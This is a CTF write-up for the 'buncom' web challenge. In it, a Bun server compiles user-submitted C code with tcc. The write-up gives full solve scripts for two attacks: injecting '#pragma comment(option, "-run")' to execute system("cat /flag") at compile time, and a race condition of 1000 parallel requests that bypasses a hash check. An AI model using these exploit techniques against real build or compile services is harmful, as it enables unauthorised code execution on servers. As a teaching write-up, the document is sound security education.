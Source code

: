 # buncom

* Category: Web, Misc
* Score: 500 / 500
* Solves: 3 / 830
* First blood: TAS.Dihydro_Monoxide

> [!NOTE]
> This challenge is inspired by [Echo as a Service](https://github.com/lebr0nli/My-CTF-Challenges/tree/main/HITCON%20CTF%202024/Echo%20as%20a%20Service). Much thanks to [lebr0nli](https://github.com/lebr0nli)!

## Description

Did Bun fix shell injection? Find out in hitcon eaas the sequel!

[handout_buncom.zip](./handout_buncom.zip)

## Overview

Upon launching an instance you can see a code editor and a submit button

![](./image/web.png)

After further inspection using the given [index.js](./src/index.js) file, lets break down the flow of the website:

- Compile `default.c` and save the md5 hash of the output binary.

```js
import { $ } from "bun";

const src = "/tmp/custom.c", exe = "/tmp/a.out"

let hash = await $`
  cp default.c ${src};
  timeout 0.1 tcc ${src} -o ${exe};
  timeout 0.1 md5sum ${exe}`.text(), output = ""
```

This is just a simple misdirection, I don't actually think you can construct an another file with the same `md5sum`, especially using binary output format but I'm happy to be proven wrong!

- Serve the http website on port 1337 using bun

```js
const server = Bun.serve({
  host: "0.0.0.0",
  port: 1337,
  async fetch(req) {
    const url = new URL(req.url);
    if (url.pathname === "/") {
```

- If the parameter code exists, write its content to `$src` and compile to `$exe` using tcc

```js
const code = (new URLSearchParams(url.search)).get('code')
if (code) {
  try {
    output = await $`echo ${code} > ${src}; timeout 0.1 tcc ${src} -o ${exe}`.text()
  } catch (err) {
    output = err.stderr.toString();
  }
}
```

Again, a misdirection. There isn't any bun command injection to my knowledge but if you found a 0day you deserve the flag anyway!

- Compare md5 hash of the binary. If the hash is different, recompile using `tcc default.c`

```js
if (await $`timeout 0.1 md5sum ${exe}`.text() !== hash) {
  await $`timeout 0.1 tcc default.c -o ${exe}`.text();
  output = `md5sum ${exe} != ` + hash;
}
```

- Finally, return the content from the binary as `text/html` (See [default.c](./src/default.c))

```js
let html = await $`${exe}`.text()
html = html.replace('__CODE__', Bun.escapeHTML(await Bun.file(src).text()))
return new Response(output + html, {
  headers: {
    "Content-Type": "text/html; charset=utf-8",
    "Content-Security-Policy": "script-src 'self'; object-src 'none'; base-uri 'none'; require-trusted-types-for 'script';"
  }
});
```

![](./image/change.png)

Let's try to include the flag

![](./image/include.png)

Hmm tcc seems to output very little compile error details

Since we know the flag format, we can try to make the flag include-valid:

![](./image/include_define.png)

This doesn't output the full flag because it contains special characters

You can keep playing with `#define` but I don't think it's possible to leak the part that contains a single `'` as it breaks tcc parsing. For reference you can see the [full flag](./flag)

An another idea is try to make it compile error or not based on the content of the flag. There's an excellent writeup for [hxp compilerbot](https://rpis.ec/blog/hxp-26c3-ctf-compilerbot/). However, this doesn't work because tcc doesn't support `.incbin` in the first place

## Solution

### Intended solution

Since this challenge ran tcc instead of gcc or clang, it makes sense to look at the help page:

```cpp
> tcc -h
Tiny C Compiler 0.9.28rc - Copyright (C) 2001-2006 Fabrice Bellard
Usage: tcc [options...] [-o outfile] [-c] infile(s)...
       tcc [options...] -run infile (or --) [arguments...]
General options:
  -c           compile only - generate an object file
  -o outfile   set output filename
  -run         run compiled source
```

What if we can run code during compile time in tcc? If we can override the tcc compiler flag to add `-run` that would be great! That way the `md5sum` will stay the same

Maybe something similar to `#pragma GCC optimize "-Ofast"`?

Notice these 3 lines in [Dockerfile](./Dockerfile), tcc was installed from source

```docker
RUN apt update && apt install git gcc make -y
RUN git clone --depth=1 https://github.com/TinyCC/tinycc.git tinycc
RUN cd tinycc && ./configure --prefix=/usr && make && make install
```

This gives us the motivation to look at the latest source code [tinycc/tests/tests2/60_errors_and_warnings.c](https://github.com/TinyCC/tinycc/blob/1cee0908d2a72d2568b2e915e8d619f049dfcf92/tests/tests2/60_errors_and_warnings.c#L416-L422)

```cpp
#pragma comment(option, "-Wall")
#elif defined test_switch_W2
#pragma comment(option, "-Wunsupported -Wno-implicit-function-declaration -Wstuff")
#elif defined test_switch_W3
#pragma comment(option, "-Wwrite-strings -Werror=discarded-qualifiers")
#elif defined test_switch_W4
#pragma comment(option, "-Wunsupported -Wno-error=implicit-function-declaration -Werror")
```

Ah there it is, you can add the compiler flags during compile time! Which means it will probably works for all options too and specifically `#pragma comment(option, "-run")`

`solve.py`
```py
URL = "http://localhost:1337/"
URL = "http://5b964bb4-10f6-4d1b-a191-a1e4578261b7.bugg.cc/"

import requests, urllib

code = """
#pragma comment(option, "-run")

int main() {
  system("cat /flag");
}
"""

print(requests.get(f"{URL}?code=" + urllib.parse.quote(code)).text)
```

```sh
> python solve.py
CSCTF{I_tried_so_hard:(_and_got_so_far._But_in_the_end,_/flag_doesn't_even_matter!4ZeR18AXbDlZvKor91No}
```

> [!NOTE]
> But why would we compile from source when we can just install `tcc` using `apt install tcc -y`?
> The reason is that `oven/bun:slim` uses debian under the hood and they shipped a broken version of tcc. This will make `#pragma` [deadlock with tcc_warning()](https://github.com/TinyCC/tinycc/commit/dda95e9b0b30771369efe66b4a47e94cf0ca7dc0)

# Unintended solution 😭

Fun fact, all 3 solves in this ctf were unintended using race condition.

Because the fetch function is async, if you spam enough requests the website flow might look like this:

```js
await $`timeout 0.1 tcc ${src} -o ${exe}`
return new Response(await $`${exe}`.text())
```

As you can see it completely bypassed the hash check, just spam requests until you get the above scenario:

`solve_race.js`
```js
let URL = "http://localhost:1337/"
URL = "https://43b64d26-d839-427d-92b2-68cf49cde759.bugg.cc"

for (let i = 0; i < 1000; i++) fetch(`${URL}?code=${encodeURIComponent('main() { system("cat /flag"); }')}`).then(res => res.text()).then(text => { if (text.includes('CSCTF')) console.log(text) });
```

```sh
> bun solve_race.js
CSCTF{I_tried_so_hard:(_and_got_so_far._But_in_the_end,_/flag_doesn't_even_matter!4ZeR18AXbDlZvKor91No}
```

Solution by [t-rekttt](https://github.com/t-rekttt) which is also a first blood, congratulations!

![](image/blood.png)

`t-rekttt` also gave idea on how to prevent race condition, thank you so much!

![](image/prevention.png)